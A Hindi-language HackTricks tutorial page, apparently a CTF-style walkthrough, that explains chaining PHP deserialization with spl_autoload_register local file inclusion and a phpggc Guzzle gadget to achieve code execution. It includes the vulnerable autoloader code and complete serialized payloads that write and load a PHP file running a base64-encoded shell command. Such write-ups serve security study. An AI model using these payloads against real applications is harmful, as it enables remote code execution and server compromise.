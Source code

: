 # PHP - डीसीरियलाइजेशन + ऑटोलोड क्लासेस

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **PR जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>

पहले, आपको देखना चाहिए कि [**ऑटोलोडिंग क्लासेस**](https://www.php.net/manual/en/language.oop5.autoload.php) क्या हैं।

## PHP डीसीरियलाइजेशन + spl\_autoload\_register + LFI/Gadget

हम एक स्थिति में हैं जहाँ हमने एक **वेब ऐप में PHP डीसीरियलाइजेशन** पाया है जिसमें **`phpggc`** के अंदर कोई गैजेट वलनरेबल लाइब्रेरी नहीं है। हालांकि, उसी कंटेनर में एक **वलनरेबल लाइब्रेरी के साथ अलग कंपोजर वेब ऐप** था। इसलिए, लक्ष्य था कि **दूसरे वेब ऐप के कंपोजर लोडर को लोड करें** और इसका दुरुपयोग करें ताकि **उस लाइब्रेरी को एक गैजेट के साथ उत्पीड़ित करें** जो डीसीरियलाइजेशन के लिए वलनरेबल वेब ऐप से है।

चरण:

* आपने एक **डीसीरियलाइजेशन** पाया है और वर्तमान ऐप कोड में कोई **गैजेट नहीं** है
* आप निम्नलिखित तरह का **`spl_autoload_register`** फ़ंक्शन दुरुपयोग कर सकते हैं ताकि **`.php` एक्सटेंशन वाली किसी भी स्थानीय फ़ाइल को लोड** करें
* इसके लिए आप एक डीसीरियलाइजेशन का दुरुपयोग करते हैं जिसमें क्लास का नाम **`$name`** के अंदर होगा। आप **"/" या "."** का उपयोग एक सीरीयलाइज्ड ऑब्जेक्ट में क्लास नाम में नहीं कर सकते हैं, लेकिन **कोड** ने **अंडरस्कोर** ("\_") को **स्लैश** ("/") में **बदल दिया है**। इसलिए, एक क्लास नाम जैसे `tmp_passwd` को `/tmp/passwd.php` में बदल दिया जाएगा और कोड इसे लोड करने की कोशिश करेगा।\
एक **गैजेट उदाहरण** होगा: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
यदि आपके पास एक **फ़ाइल अपलोड** है और आप एक फ़ाइल अपलोड कर सकते हैं जिसमें **`.php` एक्सटेंशन** है, तो आप इस कार्यक्षमता का सीधा दुरुपयोग कर सकते हैं और पहले से ही RCE प्राप्त कर सकते हैं।
{% endhint %}

मेरे मामले में, मेरे पास ऐसा कुछ नहीं था, लेकिन **एक ही कंटेनर** में एक और कॉम्पोज़र वेब पेज था जिसमें एक `phpggc` गैजेट के लिए एक लाइब्रेरी वंशवत था।

* इस दूसरी लाइब्रेरी को लोड करने के लिए, पहले आपको **उस दूसरे वेब ऐप के कॉम्पोज़र लोडर को लोड करना होगा** (क्योंकि मौजूदा एप्लिकेशन का वन अन्य की लाइब्रेरी तक पहुंच नहीं होगा)। **एप्लिकेशन के पथ को जानते हुए**, आप इसे बहुत आसानी से प्राप्त कर सकते हैं: **`O:28:"www_frontend_vendor_autoload":0:{}`** (मेरे मामले में, कॉम्पोज़र लोडर `/www/frontend/vendor/autoload.php` में था)
* अब, आप **अन्य ऐप कॉम्पोज़र लोडर** को **लोड** कर सकते हैं, तो अब समय है **`phpggc`** **पेलोड** उपयोग करने के लिए। मेरे मामले में, मैंने **`Guzzle/FW1`** का उपयोग किया, जिसने मुझे **फ़ाइल सिस्टम के अंदर कोई भी फ़ाइल लिखने** की अनुमति दी।
* ध्यान दें: **उत्पन्न गैजेट काम नहीं कर रहा था**, इसे काम करने के लिए मैंने उस पेलोड **`chain.php`** को संशोधित किया और सभी विशेषताएँ क्लासों की **निजी से सार्वजनिक** में सेट की। अगर नहीं, स्ट्रिंग को डिसीरियलाइज़ करने के बाद, बनाए गए ऑब्जेक्ट्स की विशेषताएँ कोई मान नहीं रखती थीं।
* अब हमारे पास तरीका है **अन्य ऐप कॉम्पोज़र लोडर** को लोड करने का और एक **काम करने वाला phpggc पेलोड** है, लेकिन हमें **इसे इसी अनुरोध में करने की आवश्यकता है ताकि गैजेट का उपयोग किया जाए जब लोडर लोड हो**। उसके लिए, मैंने एक सीरीयलाइज़ एरे भेजा जिसमें दोनों ऑब्जेक्ट्स थे:
* आप **पहले लोडर को लोड होते देख सकते हैं और फिर पेलोड**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* अब, हम **एक फ़ाइल बना सकते हैं और लिख सकते हैं**, हालांकि, उपयोगकर्ता **वेब सर्वर के अंदर किसी भी फ़ोल्डर में लिख नहीं सकता था**। इसलिए, जैसा कि आप पेलोड में देख सकते हैं, PHP **`system`** को कुछ **base64** के साथ बनाया गया है **`/tmp/a.php`** में। फिर, हम **दूसरे वेबऐप के कॉम्पोज़र लोडर को लोड करने के लिए पहले प्रकार के पेलोड को पुनः प्रयोग कर सकते हैं** जिसे हमने LFI के रूप में उपयोग किया था **`/tmp/a.php`** फ़ाइल को लोड करने के लिए। इसे डेसीरियलाइज़ेशन गैजेट में जोड़ें:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**पेलोड का सारांश**

* **एक अलग वेबऐप के कंटेनर में कॉम्पोजर ऑटोलोड** लोड करें
* **फिलहाल वेबऐप के लाइब्रेरी का दुरुपयोग करने के लिए एक फीजी साधन लोड** करें (जिस पर डेसीरियलाइजेशन के लिए विकल्प वेबऐप में कोई गैजेट नहीं था)
* फीजी **एक फ़ाइल बनाएगा जिसमें PHP पेलोड** होगा जिसमें दुराचारी कमांड होंगे (/tmp/a.php में) (वेबऐप उपयोगकर्ता किसी भी वेबऐप के किसी भी फ़ोल्डर में लिख नहीं सकता)
* हमारे पेलोड का अंतिम हिस्सा **उस उत्पन्न PHP फ़ाइल को लोड करेगा** जो कमांड निष्पादित करेगा

मुझे **इस डेसीरियलाइजेशन को दो बार कॉल करने की आवश्यकता** थी। मेरे परीक्षण में, पहली बार `/tmp/a.php` फ़ाइल बनाई गई थी लेकिन लोड नहीं हुई, और दूसरी बार यह सही ढंग से लोड हुई।

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फ़ॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>
